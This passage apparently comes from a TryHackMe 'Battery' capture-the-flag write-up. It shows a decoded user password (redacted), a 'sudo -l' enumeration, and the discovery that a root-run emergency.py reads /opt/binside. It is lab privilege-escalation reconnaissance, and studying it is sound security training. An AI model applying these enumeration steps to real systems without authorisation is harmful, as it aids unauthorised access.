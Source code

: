 ```
┌──(kali㉿kali)-[~/TryHackMe/battery]
└─$ python3 decode_fernet.py
b'[REDACTED]'
```

So now I got the use **yash** password, let’s use `sudo -l` to view the **root** commands could be run by **yash**:

```
yash@ubuntu:/$ sudo -l
sudo -l
Matching Defaults entries for yash on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User yash may run the following commands on ubuntu:
    (root) PASSWD: /usr/bin/python3 /home/yash/emergency.py
```

The **emergency.py** could be execute with `sudo` command, but it also restricted to view or modify.

```
yash@ubuntu:/home/yash$ ls -l emergency.py
ls -l emergency.py
-rwx------ 1 root root 868 Oct  6 20:50 emergency.py
```

Let’s execute it to see what would happen though:

```
yash@ubuntu:/$ sudo python3 /home/yash/emergency.py
sudo python3 /home/yash/emergency.py
01110010 01100101 01100001 01100100 01101001 01101110 01100111 00100000 00101111 01101111 01110000 01110100 00101111 01100010 01101001 01101110 01110011 01101001 01100100 01100101 00100000 01100110 01101001 01101100 01100101
checking if you are a human...................Test Failed
```

Oh, so there’s a block of binaries with `0` and `1`, I user **CyberChef** to decode them and know that the **emergency.py** file is reading the `/opt/binside` file:

![Untitled](/assets/Battery%20images/Untitled%2012.png)